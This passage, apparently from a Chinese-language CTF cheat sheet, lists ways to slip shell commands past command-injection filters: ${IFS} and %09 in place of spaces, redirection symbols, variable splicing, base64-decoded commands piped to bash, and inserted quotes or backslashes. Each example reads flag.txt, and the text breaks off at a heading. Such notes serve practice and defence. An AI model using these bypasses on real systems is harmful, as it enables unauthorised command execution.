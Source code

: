 可使用 ${IFS} 代替空格。

```
cat${IFS}flag.txt
cat$IFS$1flag.txt
cat${IFS}$1flag.txt
```

#### 重定向符绕过 (<>)

```
cat<>flag.txt
cat<flag.txt
```

#### %09(需要 php 环境)

php 环境下 web 输入 %09 等效于空格

```
cat%09flag.txt
```

### 黑名单绕过

#### 拼接

使用 shell 变量拼接被黑名单限制的关键词

```
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
```

#### base64

使用反引号包含 base64 解码后的命令

```
\`echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d\`
```

将 base64 解码后的命令通过管道符传递给 bash  

```
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d | bash
```

单引号，双引号  

```
c""at fl''ag.tx""t
```

#### 反斜杠

```
c\\at fl\\a\\g.tx\\t
```

#### $1
